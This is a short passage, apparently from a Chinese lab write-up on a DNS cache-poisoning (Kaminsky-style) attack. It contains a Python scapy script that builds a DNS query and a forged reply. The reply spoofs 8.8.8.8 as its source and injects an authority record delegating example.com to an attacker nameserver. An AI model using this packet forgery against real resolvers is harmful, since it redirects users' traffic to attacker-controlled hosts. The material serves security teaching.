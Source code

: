 ## 4.3 脚本

generate_dns.py

```python
from scapy.all import *
import string
import random

# random name
name = ''.join(random.sample(string.ascii_letters, 5))+'.example.com' 
print(name)
Qdsec = DNSQR(qname=name)

# query
ip_q  = IP(dst='172.17.0.2',src='172.17.0.1') # dst: dns; src:attacker
udp_q = UDP(dport=53,sport=33333,chksum=0)
dns_q = DNS(id=0xaaaa,qr=0,qdcount=1,ancount=0,nscount=0,arcount=0,qd=Qdsec)
pkt_q= ip_q/udp_q/dns_q

# reply
ip_r = IP(dst='172.17.0.2', src='8.8.8.8', chksum=0)
udp_r = UDP(dport=33333, sport=53, chksum=0)
Anssec = DNSRR(rrname=name, type='A', rdata='1.2.3.4', ttl=259200)
 # The Authority Section
NSsec = DNSRR(rrname='example.com', type='NS', ttl=259200, rdata='ns.fqh.net')
Addsec = DNSRR(rrname='ns.fqh.net', type='A', ttl=259200, rdata='172.17.0.1')
dns_r = DNS(id=0xAAAA, aa=1, rd=0, qr=1, qdcount=1, ancount=1, nscount=1, arcount=1, qd=Qdsec, an=Anssec, ns=NSsec, ar=Addsec)
pkt_r = ip_r/udp_r/dns_r

with open('query.bin','wb')as f:
  f.write(bytes(pkt_q))
with open('reply.bin', 'wb') as f:
  f.write(bytes(pkt_r))

```

查看id的位置

![image-20230424232120289](assets/image-20230424232120289.png)
